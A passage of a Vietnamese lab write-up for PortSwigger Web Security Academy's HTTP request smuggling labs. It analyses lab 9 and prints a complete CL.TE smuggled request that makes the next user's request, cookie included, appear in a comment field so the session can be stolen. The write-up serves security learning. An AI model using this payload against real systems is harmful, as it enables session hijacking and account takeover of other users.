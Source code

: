 ![image](https://hackmd.io/_uploads/Sk1skJ3pp.png)

và lab của chúng ta đã được solve

### Burp scan

- mình quét lại bài lab với burp scan

![image](https://hackmd.io/_uploads/ry24WJn6a.png)

![image](https://hackmd.io/_uploads/BkEvWJ3p6.png)

![image](https://hackmd.io/_uploads/Sk3P-khaa.png)

![image](https://hackmd.io/_uploads/B1z_ZJh66.png)

![image](https://hackmd.io/_uploads/B1ud-y2pa.png)

## 9. Lab: Exploiting HTTP request smuggling to capture other users' requests

link: https://portswigger.net/web-security/request-smuggling/exploiting/lab-reveal-front-end-request-rewriting

### Đề bài

![image](https://hackmd.io/_uploads/SJjBzy36p.png)

### Phân tích

- Phòng thí nghiệm này bao gồm một máy frontend và backend, đồng thời máy chủ frontend không hỗ trợ mã hóa phân đoạn.

- Để giải quyết bài thí nghiệm, mình cần chuyển một yêu cầu đến máy backend khiến yêu cầu của người dùng tiếp theo được lưu trữ trong ứng dụng. Sau đó truy xuất yêu cầu của người dùng tiếp theo và sử dụng cookie của người dùng nạn nhân để truy cập vào tài khoản của họ.

- Ứng dụng có chức năng comment và mình có thể xem comment của bất kì ai.

### Khai thác

- Lợi dụng HTTP request smuggling dạng CL.TE, ta khến back-end xử lý request sau là post comment với trường comment rỗng → request sau của user khác sẽ bị nối vào trường comment này và hiển thị lên comment. Content-Length ở đây ta sẽ chỉnh sao cho comment hiển thị chứa cookie cần lấy.

```http!
POST / HTTP/1.1
Host: 0aa8000d03aedbd686d0cab5005100a9.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 269
Transfer-Encoding: chunked

0

POST /post/comment HTTP/1.1
Content-Type: application/x-www-form-urlencoded
Content-Length: 590
Cookie: session=hN90Mo8HUsWEK8aZRax9ZX6zXEJQ0T2W

csrf=hkq4xHjbVWb0zXNaImbgOL1RsssvH6di&postId=10&name=123&email=a%40a.a&website=http%3A%2F%2Fa.com&comment=123
```
